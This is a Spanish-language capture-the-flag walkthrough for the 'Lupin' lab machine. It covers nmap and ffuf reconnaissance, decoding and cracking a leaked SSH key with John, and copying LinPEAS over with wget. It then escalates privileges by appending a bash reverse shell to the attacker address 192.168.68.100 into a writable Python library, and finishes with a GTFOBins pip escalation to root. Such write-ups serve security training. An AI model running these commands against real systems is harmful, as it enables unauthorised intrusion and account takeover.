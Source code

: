 # Lupin

## Summary

- IP -> Random
- Ports -> TCP (22,80), UDP (idk)
- OS ->  Linux 
- Services & Applications
    - 22 -> OpenSSH 8.4p1
    - 80 -> Apache httpd 2.4.48

## Recon
* **Ifconfig** Verificamos nuestra IP 
* **nmap -sV 192.168.68.0/24** Vamos a escanear toda la red en donde se encuentra nuestra IP y ver que dispositivos existen
* **nmap -n -sn 192.168.68.0/24 -oG Ports | awk '/Up$/{print $2}'** (n=no realizar DNS, sn=escaneo de ping y no escanee ls puertos, oG=formato grepeable) Nos mostrara solo las IP del escaneo de Nmap
* **nmap -sCV 192.168.68.111** (sC=usa el script que me den informacion detallada dentro de la IP, sV=Version) Escanearemos la IP de la victima

Primero inspeccionamos la pagina web
* **Ctrl +u** Para poder ver el codigo de la pagina web 
Miramos en nmap que nos muestra un dir llamado /~myfiles/, por lo que lo miramos en la pagina web

Para descargar la Seclists
* **git clone --depth 1 \ https://github.com/danielmiessler/Seclists.git** 

Haremos un ataque de fuerza bruta al servicio HTTP con la siguiente herramienta para poder tener mas directorios
* **ffuf -c -w /usr/share/Seclists/Discovery/Web-Content/common.txt -u 'http://192.168.68.111/~FUZZ'** Para poder hacer Fuzz a la direccion IP victima y le indicamos con FUZZ que ahi queremos que inyecte las palabras del diccionario (u=url, w=wordlist)
Nos encuentra un dir llamado '/~Secret/', por lo que nos disponemos a ver que hay en el dentro de la Web

Tenemos en la web una clave ssh private file 
usuario: icex64

* **ffuf -c -ic -w /usr/share/Seclists/Discovery/Web-Content/discovery-list-2.3-medium.txt -u 'http://192.168.68.111/~secret/.FUZZ' -fc 403 -e .txt, .html** Para poder hacer Fuzz a la direccion IP victima y le indicamos con FUZZ que ahi queremos que inyecte las palabras del diccionario (u=url, w=wordlist, ic=ignora mayusculas y minusculas, c=siga ejecutando las respuestas, fc=quita respuestas invalidad como 404, e=extensiones del archivo) 

Nos regresa un archivo que se llama secret.txt y miramos en la web para ver el contenido
El punto antes de 'mysecret.txt' es para que nos lo detecte como un archivo y no como un dir
http://192.168.68.111/~secret/.mysecret.txt


- https://www.dcode.fr/cipher-identifier Pagina para ver que tipo de hash es el que encontramos de la url anterior y nos da un base_58
Nos ponemos a descodificar ese hash y lo haremos en la misma pagina, ya que ella contiene algunos decodificadores

Nos regresa la llave privada y la colocaremos en un archivo llamado 'sshkey' para poder romperlo con John
- **locate ssh2john** Y nos regresara la siguiente direccion **/usr/share/john/ssh2john.py**
- **ssh2john.py sshkey > hash** Usaremos el .py de John para poder convertir esa clave en un hash


- **jhon --wordlist=/usr/share/wordlists/fasttrack.txt hash** Para que haga el ataque de fuerza bruta (diccionario)

Nos da la passwd: P@55w0rd!


## User

Ahora podemos entrar por ssh de la siguiente manera 
- Comando -> **ssh -i sshkey icex64@192.168.68.111** Para conectarnos por ssh
Y la passwd la udamos al momento de establecer la conexion con SSH
Podemos ver la flag del usuario user.txt

* **sudo -l** Para ver si tenemos privilegios en el Sudoers (l=ele) y miramos que tenemos un comando para ejecutar como el usuario Arsene

Buscaremos la herramienta de **LinPEAS** en GitHub
Si no podemos ejecutar el comando Curl para poderlo descargar, debemos de ir bajando en la pagina a la parte de 'Quick Start' en la parte de 'Releases page' y ahi nos descargamos el **linpeas.sh** y lo movemos a nuestro directorio de trabajo y buscaremos pasarlo a la maquina victima

* **python3 -m http.server 80** Nos iniciamos un servidor temporal con Python en el cual podemos pasar archivos, el comando se debe ejecutar en la carpeta que vamos a compartir de nuestra maquina de atacante 

Ahora en la maquina victima nos dirjimos al dir **/tmp** ya que tiene poder de escritura y lectura 
* **wget 192.168.68.100/linpeas.sh** La direccion IP es de la maquina de atacante y asi podemos cargar el archivo LinPEAS

* **chmod 777 linpeas.sh** Agregamos los privilegios para poder ejecutarlo 
* **./linpeas.sh** Ejecutamos el archivo en la maquina victima

Buscaremos un script con python3.9, los scripts los podemos ejecutar ya que habiamos visto en **sudo -l**  el privilegio
**/usr/lib/python3.9/webbrowser.py**

Miramos los permisos del archivo 
* **ls -l /usr/lib/python3.9/webbrowser.py** Mirando los permisos lo podemos ejecutar en cualquier usuario
* **nano /usr/lib/python3.9/webbrowser.py** Miramos que contiene

Haremos una ReverShell para poder ser el usuario Arsene

Esto lo haremos colocando la ReverShell en el archivo hasta el final que encontramos de Python
colocando lo siguiente:

Este lo colocamos despues de las librerias 
* **os.system("/bin/bash")** Este sirve para que en la misma consola nos haga el cambio de usuario y no usar en este caso la consola de Netcat

Y este lo colocamos al final del codigo del archivo
- **cat >> /usr/lib/python3.9/webbrowser.py** Y despues pegamos el comando de abajo para que lo agregue 
**os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.68.100/443 0>&1'")** o solo lo agregamos hasta abajo 


Despues en nuestra maquina de atacante nos ponemos en escucha por Netcat 
* **nc -nlvp 443** 

En la mquina victima hacemos lo siguiente para poder ejecutar el comando
* **sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py**

## Root

Una vez dentro del usuario Arsene
* **sudo -l** Miramos que tenemos un privilegio para ejecutar un comando como root '/usr/bin/pip'

Buscaremos en Google la pagina de GTFOBins - [https://gtfobins.github.io/](https://gtfobins.github.io/) y buscaremos pip y utilizaremos los primeros comandos que en este caso son 3 de uno en uno 
Para el tercer comando usaremos **sudo** 

* **id** Miramos si ya estamos en el root
Y asi lograremos ser Root, por lo que buscaremos la flag root.txt